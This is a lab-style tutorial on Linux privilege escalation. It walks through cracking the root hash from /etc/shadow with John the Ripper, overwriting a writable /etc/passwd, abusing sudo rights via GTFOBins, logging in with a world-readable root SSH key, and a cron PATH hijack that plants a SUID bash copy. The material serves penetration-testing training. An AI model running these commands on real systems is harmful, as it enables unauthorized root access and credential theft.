






# 🔥 Linux Privilege Escalation

In this we are going to see different type of methods for Linux Privilege Escalation for this you have to get a ssh or reverse connection to a linux machine

You can watch tutorial on my youtube or set up a victim linux machine and get a ssh connection to your attacker machine.

### (Method #1)

So after setting up the connection check the shadow file is accessible by the normal user or not,in this it can be accesses so we will copy the hash of the root user and save in a txt file to run it with john the ripper to bruteforce for the password and login with the root user.


<figure><figcaption></figcaption></figure>

```bash
// john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><figcaption></figcaption></figure>

Here you will get the root password and you can login with su root and password.

### (Method #2)

In this method we will first check the permissions of the passwd file&#x20;

<figure><figcaption></figcaption></figure>

then if is accesssible by the normal user we will generate the a password and replace the root password of the file with ours and then login in the root user.

<figure><figcaption></figcaption></figure>

### (Method #3)

In this method we will first type **sudo -l** to check the available sudo commands which can be run without the password

<figure><figcaption></figcaption></figure>

then go to [https://gtfobins.github.io/](https://gtfobins.github.io/) and search for any of the commands in this i will be searching for the awk command.

<figure><figcaption></figcaption></figure>

and then copy the sudo one and paste it in terminal and you will get the root shell.

<figure><figcaption></figcaption></figure>

### (Method #4)

Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

`ls -l /.ssh`

Note that there is a world-readable file called root\_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root\_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):

`ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP`

### (Method #5)

View the contents of the system-wide crontab:\


`cat /etc/crontab`

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

\#!/bin/bash\
\
cp /bin/bash /tmp/rootbash\
chmod +xs /tmp/rootbash

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated user.

`rm /tmp/rootbash`\
`exit`


